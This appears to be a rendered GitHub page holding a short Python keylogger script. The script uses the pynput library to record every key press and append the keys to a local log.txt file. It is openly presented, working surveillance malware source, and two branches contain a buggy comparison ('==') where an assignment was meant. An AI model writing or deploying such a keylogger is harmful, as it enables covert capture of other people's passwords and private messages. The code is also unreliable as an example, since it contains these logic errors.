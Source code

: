# projects
keylogger.py
#! /usr/bin/python

import pynput.keyboard

log =""

def process_keys(key):
	global log
	fin = open("log.txt", 'a')
	fin.write(log)
	log =""
	fin.close()

	try:
		log = log + str(key.char)
	except AttributeError:
		if key == key.space:
			log = log + " "
		elif key == key.up:
			log = log + " "
		elif key == key.right:
			log = log + " "
		elif key == key.left:
			log == log + " "
		elif key == key.down:
			log == log + " "
		else:
			log = log + " " + str(key) + " " 
	
def start():
	key_listener = pynput.keyboard.Listener(on_press=process_keys)
	with key_listener:
		key_listener.join()


start()
